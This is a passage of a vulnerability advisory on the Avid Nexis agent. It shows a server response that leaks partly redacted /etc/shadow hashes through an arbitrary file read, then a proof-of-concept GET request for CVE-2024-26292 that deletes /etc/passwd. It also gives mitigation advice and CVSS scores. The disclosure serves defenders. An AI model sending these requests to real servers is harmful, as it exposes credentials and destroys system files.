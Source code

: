 The response looks like this (shortened):

```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/octet-stream
Content-Length: 1164
Connection: close

root:$1$Or<redacted>njEucgDO1:19775:0:99999:7:::
...
avid-nexis:$5$t3v<redacted>bZgA:19774:0:99999:7:::
```
As we can see, the server responds with the file content of the file we requested. The
function is usually meant to download log files. But it is not restricted in any way.

### Mitigation

As we are not aware of an official fix as of today, we recommend users of Avid Nexis to restrict access to the agent port (default 5015) using an allowlist approach.

### CVSS
DriveByte Calculated the following CVSS 4.0 base metrics:

8.7 (CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N)

## Authenticated Arbitrary File Deletion (Linux/Windows): CVE-2024-26292

### Description
The Application is vulnerable to an authenticated Arbitrary File Deletion. This affects the
Agent installed on Linux and Windows alike. As the application runs per default with the
highest privileges (root/NT_AUTHORITY SYSTEM), attackers are able to delete critical files
like /etc/shadow.

### Proof of Concept

The vulnerability can be triggered with the following GET request (shortened):

```http
GET /agent?filename=%2Fetc%2Fpasswd&r=logs&request=del_usrv_log HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=1294797077750987387
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
...
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
...
```
